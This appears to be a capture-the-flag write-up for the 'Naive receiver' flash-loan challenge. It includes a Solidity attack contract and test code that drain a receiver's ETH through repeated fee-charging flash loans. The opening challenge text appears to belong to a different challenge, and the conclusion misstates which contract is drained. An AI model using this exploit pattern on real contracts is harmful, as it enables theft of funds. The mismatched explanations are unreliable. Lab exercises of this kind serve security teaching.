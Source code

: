 ## Challenge #2 - Naive receiver
There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, make the vault stop offering flash loans.

You start with 10 DVT tokens in balance.

---

First of all, check the origin test script:

```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Naive receiver', function () {
    let deployer, user, player;
    let pool, receiver;

    // Pool has 1000 ETH in pool
    const ETHER_IN_POOL = 1000n * 10n ** 18n;

    // Receiver has 10 ETH in receiver
    const ETHER_IN_RECEIVER = 10n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        // Get three person in this test case.
        [deployer, user, player] = await ethers.getSigners();

        // deploy pool contract, attack contract and check variables.
        const LenderPoolFactory = await ethers.getContractFactory('NaiveReceiverLenderPool', deployer);
        const FlashLoanReceiverFactory = await ethers.getContractFactory('FlashLoanReceiver', deployer);
        pool = await LenderPoolFactory.deploy();
        await deployer.sendTransaction({ to: pool.address, value: ETHER_IN_POOL });
        const ETH = await pool.ETH();
        expect(await ethers.provider.getBalance(pool.address)).to.be.equal(ETHER_IN_POOL);
        expect(await pool.maxFlashLoan(ETH)).to.eq(ETHER_IN_POOL);
        expect(await pool.flashFee(ETH, 0)).to.eq(10n ** 18n);
        receiver = await FlashLoanReceiverFactory.deploy(pool.address);

        // set original balance of pool.
        await deployer.sendTransaction({ to: receiver.address, value: ETHER_IN_RECEIVER });
        await expect(
            receiver.onFlashLoan(deployer.address, ETH, ETHER_IN_RECEIVER, 10n**18n, "0x")
        ).to.be.reverted;
        expect(
            await ethers.provider.getBalance(receiver.address)
        ).to.eq(ETHER_IN_RECEIVER);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // All ETH has been drained from the receiver
        expect(
            await ethers.provider.getBalance(receiver.address)
        ).to.be.equal(0);
        expect(
            await ethers.provider.getBalance(pool.address)
        ).to.be.equal(ETHER_IN_POOL + ETHER_IN_RECEIVER);
    });
});
```

And then check out the flash loan function:

```javascript
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH)
        revert UnsupportedCurrency();
    
    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if(receiver.onFlashLoan(
        msg.sender,
        ETH,
        amount,
        FIXED_FEE,
        data
    ) != CALLBACK_SUCCESS) {
        revert CallbackFailed();
    }

    if (address(this).balance < balanceBefore + FIXED_FEE)
        revert RepayFailed();

    return true;
}
```

We can see that the fee per transaction is 1 ETH, so if we can receive 10 times flash loan, we will drain all of the pool balance (10 ETH).

So add a file AttackNaiveReceiver.sol(contracts/attacker-contracts/AttackNaiveReceiver.sol) and paste following codes:
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../naive-receiver/NaiveReceiverLenderPool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract AttackNaiveReceiver {
    NaiveReceiverLenderPool pool;
    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    // set naive receiver pool as pool address.
    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    // call the naive receiver pool to do flash loan 10 times.
    function attack(address victim) public {
        for (int i=0; i < 10; i++ ) {
            pool.flashLoan(IERC3156FlashBorrower(victim), ETH, 1 ether, "");
        }
    }
}
```

Call the deploy attack contracts and call attack funtion in test file: 
```javascript
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    const AttackFactory = await ethers.getContractFactory("AttackNaiveReceiver", player);
    const attackContract = await AttackFactory.deploy(pool.address);
    await attackContract.attack(receiver.address);
});
```

Then we can drain all of the ETH in pool !!